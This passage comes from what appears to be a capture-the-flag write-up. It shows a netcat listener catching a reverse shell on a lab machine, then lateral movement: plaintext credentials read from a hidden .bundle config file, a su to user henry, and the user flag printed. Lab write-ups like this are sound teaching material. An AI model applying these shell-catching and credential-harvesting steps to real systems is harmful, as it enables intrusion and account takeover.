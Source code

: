 And this worked!

```
└─$ nc -lnvp 1234                                                                             	1 ⨯
listening on [any] 1234 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.11.189] 44382
$ id
id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)
```

### Lateral Movement

We now have access to the ```ruby``` user. After snooping around, there is another user called ```henry```, with the user flag in their home directory. We must now pivot to henry’s user. Snooping around Ruby’s home directory, we find a hidden folder called ```.bundle```, containing a file with ```henry```’s credentials.
```
$ pwd
pwd
/var/www/pdfapp
$ cd ~
cd ~
$ ls -a
ls -a
.  ..  .bash_history  .bash_logout  .bashrc  .bundle  .cache  .profile
$ cd .bundle
cd .bundle
$ ls
ls
config
$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
$ su henry
su henry
Password: Q3c1AqGHtoI0aXAYFH         	 

bash-5.1$ whoami
whoami
henry
```

We are now in ```henry```’s user account, and find the first flag ```user.txt```!

```
cd ~
bash-5.1$ ls
ls
dependencies.yml  test.rb  user.txt
bash-5.1$ cat user.txt
cat user.txt
4ac161ef71b66aa6ea3e6a90102ee693
bash-5.1$
```
